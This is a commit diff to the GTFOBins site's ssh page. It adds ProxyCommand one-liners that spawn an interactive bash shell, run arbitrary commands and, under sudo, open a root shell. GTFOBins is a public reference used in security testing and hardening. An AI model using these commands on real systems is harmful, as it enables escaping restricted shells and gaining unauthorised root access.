

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ssh.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add ProxyCommand executions to ssh

```diff
--- a/_gtfobins/ssh.md
+++ b/_gtfobins/ssh.md
@@ -3,6 +3,20 @@ functions:
   execute-interactive:
     - description: Reconnecting may help bypassing restricted shells.
       code: ssh localhost $SHELL --noprofile --norc
+    - description: Spawn interactive shell through ProxyCommand option.
+      code: ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/bash -i'" whatever.invalid
+  execute-non-interactive:
+    - description: The executed command output is not shown and can be redirected to a file.
+      code: |
+        CMD=/usr/bin/id
+        ssh -o ProxyCommand="${CMD}" whatever.invalid
+  sudo-enabled:
+    - description: Spawn interactive root shell through ProxyCommand option.
+      code: sudo ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/bash -i'" whatever.invalid
+    - description: The executed command output is not shown and can be redirected to a file.
+      code: |
+        CMD=/usr/bin/id
+        sudo ssh -o ProxyCommand="${CMD}" whatever.invalid
   download:
     - description: Fetch a remote file from a SSH server.
       code: |
```
